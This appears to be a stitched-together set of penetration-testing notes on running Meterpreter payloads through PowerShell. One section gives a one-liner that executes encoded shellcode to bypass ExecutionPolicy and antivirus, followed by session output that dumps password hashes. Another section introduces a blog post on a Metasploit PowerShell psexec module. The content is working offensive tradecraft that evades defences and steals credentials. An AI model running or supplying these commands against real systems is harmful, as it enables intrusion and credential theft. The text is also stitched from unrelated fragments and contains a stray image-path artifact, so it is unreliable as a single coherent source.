 Now that we have the encoded shellcode on the target machine, we can execute the following from the same command prompt.

c:\> powershell -noprofile -noninteractive -noexit -command "& {$cmd=type 'c:\windows\temp\_shell.txt';powershell -noprofile -noninteractive -noexit -encodedCommand $cmd}"

While there are likely more efficient ways to accomplish this command, what it's doing is grabbing the contents of our encoded shellcode and storing it in a variable (via the 'type' command). It then executes an additional PowerShell command. By using the -encodedCommand switch we can pass it our encoded shellcode. This allows us to execute the script via a command line rather than a script (which avoids any ExecutionPolicy restrictions). Additionally, storing the payload in the $cmd variable allows us to bypass command length restrictions of the command prompt.

Success

Depending on your connection speed, the above command may take some time to execute. When it's complete, we are greeted with the sweet site of a new Meterpreter session untouched by AV...

[*] Sending stage (752128 bytes) to 10.1.1.10
[*] Meterpreter session 3 opened (10.1.1.20:443 -> 10.1.1.10:2214) at 2012-08-21 09:06:50 -0400

meterpreter > getuid
Server username: domain\jdoe
meterpreter > sysinfo
Computer : VICTIMSVR
OS : Windows .NET Server (Build 3790, Service Pack 2).
Architecture : x86
System Language : en_US
Meterpreter : x86/win32
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d<snip>3:::
jdoe:500:aad3b435b51404eeaad3b435b51404ee:d<snip>3:::






#########################################################
#Authenticated Metasploit Payloads via Powershell Psexec#
#########################################################

Reference:
http://securitypadawan.blogspot.com/2013/07/authenticated-metasploit-payloads-via.html

I love powershell and in a windows environment, powershell is king. Add the ability to perform native code injection and sprinkle in some metasploit and the possibilities are endless. There is a really awesome collection of tools called Powersploit by @mattifestation . These are powershell scripts that take advantage of "features" of powershell to do some cool stuff.

@obscuresec is also a contributor to the powersploit project, and not too long ago he had a really cool blog post detailing one way to execute a meterpreter payload within a powershell process. I thought this idea was really cool so I decided to try and take a stab at writing a metasploit module that implements a slightly modified version of this technique.

Many times in a penetration test I find myself having valid credentials to a target machine, but my payload keeps getting busted when I try and upgrade my shell to meterpreter.

This module allows you to use metasploit's existing powershell encoded payloads, or you can specify a file to use that contains a powershell script (such as powersploit) that will be executed on the target machine within the powershell process using the LPATH variable.
